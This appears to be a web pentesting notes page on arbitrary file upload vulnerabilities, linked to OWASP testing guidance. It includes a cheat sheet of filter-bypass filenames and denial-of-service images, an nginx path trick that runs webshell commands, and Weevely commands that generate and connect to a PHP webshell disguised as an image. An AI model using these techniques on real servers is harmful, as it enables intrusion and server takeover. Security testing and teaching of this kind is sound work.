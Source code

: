 ```yaml
---
title: Arbitrary file upload
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```

# Arbitrary File Upload


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 10. Business logic Testing > 10.8. Test Upload of Unexpected File Types 

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|10.8|[WSTG-BUSL-08](../OWASP/WSTG-BUSL-08.md)|[Test Upload of Unexpected File Types](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/08-Test_Upload_of_Unexpected_File_Types)|- Review the project documentation for file types that are rejected by the system.  - Verify that the unwelcomed file types are rejected and handled safely. Also, check whether the website only check for "Content-type" or file extension.  - Verify that file batch uploads are secure and do not allow any bypass against the set security measures.|
	|10.9|[WSTG-BUSL-09](../OWASP/WSTG-BUSL-09.md)|[Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)|- Identify the file upload functionality.  - Review the project documentation to identify what file types are considered acceptable, and what types would be considered dangerous or malicious.  - If documentation is not available then consider what would be appropriate based on the purpose of the application.  - Determine how the uploaded files are processed.  - Obtain or create a set of malicious files for testing.  - Try to upload the malicious files to the application and determine whether it is accepted and processed.|

An arbitrary file upload vulnerability is a type of security flaw in web applications that allows an attacker to upload and execute malicious files on a web server. This can have serious consequences, including unauthorized access to sensitive data, server compromise, and even complete system control. The vulnerability arises when the application fails to properly validate and secure the uploaded files. This means that the application may not check if the uploaded file is actually of the expected type (e.g., image, PDF), or it may not restrict the file's location or execution on the server.


**Exploitation**: An attacker identifies the file upload functionality in the target  application and attempts to upload a malicious file. This file can be crafted to include malicious code, such as PHP scripts, shell commands, or malware.

**Bypassing Validation**: If the application doesn't properly validate file types or restricts file locations, the attacker can upload a file with a misleading extension (e.g., uploading a PHP file with a .jpg extension).



## Bypass file upload restrictions

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.


## Cheat sheet for php 

Source: [Repo from imran-parray](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt)
OWASP deep explanation: [link](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```
# try to upload a simple php file
upload.php 

# To bypass the blacklist.
upload.php.jpeg 

# To bypass the blacklist.
upload.jpg.php
#  and Then Change the content type of the file to image or jpeg.
upload.php 

# version - 1 2 3 4 5 6 7
upload.php*

# To bypass The BlackList
upload.PHP 
upload.PhP 
upload.pHp 

#  By uploading this [jpg,png] files can be executed as php with milicious code within it.
upload .htaccess

# To test againt the DOS.
pixelFlood.jpg

#  upload gif file with 10^10 Frames
frameflood.gif

# upload UBER.jpg
Malicious zTXT 

# Add backdoor in comments using Exiftool and 
upload.php [getimagesize() 
# rename the jpg file with php so that it will be execute. This Time The Verification of server is only limited to contents of the uploaded file not on the extension

# backdoor in php chunks
phppng.png 

# backdoor in php chunks 
xsspng.png 
```


## Bypassing uploading a file in nginx

After bypassing a file upload feature (using .jpg extension but php mimetype), the file is treated by the application as an image.

![file](../img/fileupload_00.png)


How to bypass that situation? This works in some versions of nginx server:

```
# After the name of the file with the jpg extension, add slash and the name of the file with the uploaded and accepted mimetype php. After that you can use the CMD command of the webshell.

https://example.com/uploads/lolo.jpg/lolo.php?cmd=pwd
```

![file](../img/fileupload_01.png)

## Tools

Generate a php webshell with [Weevely](../weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```


Upload it to the application.

![weevely](../img/weevely_00.png)


Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```

![weevely](../img/weevely_01.png)
